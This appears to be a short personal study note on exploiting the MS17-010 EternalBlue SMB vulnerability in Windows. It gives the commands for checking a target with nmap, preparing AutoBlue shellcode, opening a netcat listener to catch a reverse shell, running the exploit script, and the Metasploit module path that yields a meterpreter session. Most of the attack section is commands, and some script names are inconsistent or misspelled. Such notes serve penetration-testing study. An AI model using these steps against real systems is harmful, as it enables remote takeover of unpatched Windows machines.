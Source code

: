 
A vuln on SMB (tcp 445) that allows access to a Windows System
Its an RCE Vuln and was developed by NSA
It automatically gives the hacker elevated privileges
It was used by WannaCry ransomware

Affects Windows Vista, 7, 2008, 8.1, 2012 and 2016 and 10 in both x32.x64 and x86

We can use [[Metasploit]] or Autoblue-MS17-010

We  can use an nmap script to check if the target is vulnerable:

``` bash
nmap -sV -p 445 --script=smb-vuln-ms17-010 [IP]
```

Then we can install autoblue or use metasploit, for autoblue we first need to generate the shellcode:

(In Autoblue)

``` bash
cd shellcode
chmod +x shell_prep.sh
./shell.sh
y
```

Then follow instructions (providing IPs, ports and etc)(generate a stageless payload)

![[msf_autoblueshellcode.png]]

Then we set our netcat listener:

``` bash
netcat -nlvp [Lport]
```

Then we run in autoblue:

``` bash
python eternalblue_eploit7.py [IP] [shellcodepath]
```

And we should get a command shell

---

When doing it with [[Metasploit]]:

We can use the auxiliary module to see if the system is vulnerable or the exploit module 

``` bash
use /exploit/windows/smb/ms17_010_eternalblue
```

Set RHOSTS etc. and run with "exploit" we will get a meterpreter session NOT a windows shell.